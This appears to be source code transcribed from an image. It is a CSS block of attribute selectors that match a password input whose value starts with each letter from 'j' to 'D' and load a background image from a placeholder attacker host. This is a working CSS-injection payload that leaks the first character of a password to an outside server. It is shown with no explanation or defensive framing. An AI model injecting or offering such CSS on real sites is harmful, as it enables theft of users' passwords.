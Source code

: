 ```css
input[name="password"][value^="j"] {
    background-image: url("https://ATTACKER_SERVER/j");
}
input[name="password"][value^="k"] {
    background-image: url("https://ATTACKER_SERVER/k");
}
input[name="password"][value^="l"] {
    background-image: url("https://ATTACKER_SERVER/l");
}
input[name="password"][value^="m"] {
    background-image: url("https://ATTACKER_SERVER/m");
}
input[name="password"][value^="n"] {
    background-image: url("https://ATTACKER_SERVER/n");
}
input[name="password"][value^="o"] {
    background-image: url("https://ATTACKER_SERVER/o");
}
input[name="password"][value^="p"] {
    background-image: url("https://ATTACKER_SERVER/p");
}
input[name="password"][value^="q"] {
    background-image: url("https://ATTACKER_SERVER/q");
}
input[name="password"][value^="r"] {
    background-image: url("https://ATTACKER_SERVER/r");
}
input[name="password"][value^="s"] {
    background-image: url("https://ATTACKER_SERVER/s");
}
input[name="password"][value^="t"] {
    background-image: url("https://ATTACKER_SERVER/t");
}
input[name="password"][value^="u"] {
    background-image: url("https://ATTACKER_SERVER/u");
}
input[name="password"][value^="v"] {
    background-image: url("https://ATTACKER_SERVER/v");
}
input[name="password"][value^="w"] {
    background-image: url("https://ATTACKER_SERVER/w");
}
input[name="password"][value^="x"] {
    background-image: url("https://ATTACKER_SERVER/x");
}
input[name="password"][value^="y"] {
    background-image: url("https://ATTACKER_SERVER/y");
}
input[name="password"][value^="z"] {
    background-image: url("https://ATTACKER_SERVER/z");
}
input[name="password"][value^="A"] {
    background-image: url("https://ATTACKER_SERVER/A");
}
input[name="password"][value^="B"] {
    background-image: url("https://ATTACKER_SERVER/B");
}
input[name="password"][value^="C"] {
    background-image: url("https://ATTACKER_SERVER/C");
}
input[name="password"][value^="D"] {
    background-image: url("https://ATTACKER_SERVER/D");
}
```